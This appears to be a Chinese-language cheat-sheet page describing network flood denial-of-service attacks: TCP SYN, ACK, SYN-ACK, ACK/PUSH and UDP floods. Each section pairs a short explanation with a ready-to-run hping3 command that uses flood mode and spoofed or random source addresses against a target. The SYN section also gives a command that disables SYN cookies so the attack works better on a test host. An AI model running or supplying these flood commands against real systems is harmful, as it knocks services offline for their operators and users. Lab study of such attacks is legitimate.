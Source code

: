 :::

::: details TCP SYN Flood
    
TCP-SYN Flood 攻击又称半开式连接攻击，每当我们进行一次标准的 TCP 连接，都会有一个三次握手的过程，而 TCP-SYN Flood 在它的实现过程中只有前两个步骤。这样，服务方会在一定时间处于等待接收请求方 ASK 消息的状态。由于一台终端可用的 TCP 连接是有限的，如果恶意攻击方快速连续地发送此类连接请求，则终端可用 TCP 连接队列很快将会阻塞，系统资源和可用带宽急剧下降，无法提供正常的网络服务，从而造成拒绝服务。
    
```bash
hping3 -a 100.37.1.2 -d 120 -S -w 64 -p 80 --flood 10.35.1.80 
-c 1000 # 发送的数据包的数量。 
-d 120 # 发送到目标机器的每个数据包的大小。单位是字节 
-S # 只发送 SYN 数据包。 
-w 64 # TCP 窗口大小。 
-p 80 # 目的地端口(80 是 WEB 端口)。你在这里可以使用任何端口。 
--flood # 尽可能快地发送数据包，不需要考虑显示入站回复。洪水攻击模式。 
--rand-source # 使用随机性的源头 IP 地址。这里的伪造的 IP 地址，只是在局域中伪造。通过路由器后，还会还原成真实的 IP 地址。 

# 如果攻击CentOS效果不明显可以先关闭CentOS中的TCP_SYNCookies 
echo 0 > /proc/sys/net/ipv4/tcp_syncookies 
# 该选项默认值是1，即启用syn cookies功能，此功能能够有效地防止syn flood攻击。
```

:::

::: details TCP ACK Flood

对于短时间内向目标发送大量的的 TCP 数据包，在处理每一个数据包的时候资源消耗殆尽导致拒绝服务。

```bash
hping3 -c 20000 -d 120 -A -w 64 -p 80 --flood --rand-source <目标IP>
```

:::

::: details TCP Syn-Ack Flood

SYN-ACK Flood 攻击正是利用了这一点，攻击者利用工具或者操纵僵尸主机，向目标终端发送大量的 SYN-ACK 报文，这些报文都属于凭空出现的第二次握手报文，终端忙于回复 RST 报文，导致资源耗尽，无法响应正常的请求。

```bash
hping3 -q -n -a <源ip> -S -s 1134 --keep -p 515 -i --faster -c 100 <目标ip>
```

:::

::: details Data ack and push flood

当与终端连接时，客户端可以通过设置 ACK 标志来请求确认已接收到信息，或者它可以通过设置 PUSH 标志强制终端处理数据包中的信息。这两个请求都要求终端执行比其他类型的请求更多的工作。

```bash
hping3 --flood --rand-source -PA -p PORT <目标ip>
```

:::

::: details UDP Flood

UDP 洪泛是一种拒绝服务攻击，其中大量的用户数据报协议（UDP）数据包被发送到目标终端，目的是压倒该设备的处理和响应能力。

```bash
hping3 -c 50000 -d 120 --udp -w 64 -p port --flood --rand-source <目标IP>
```
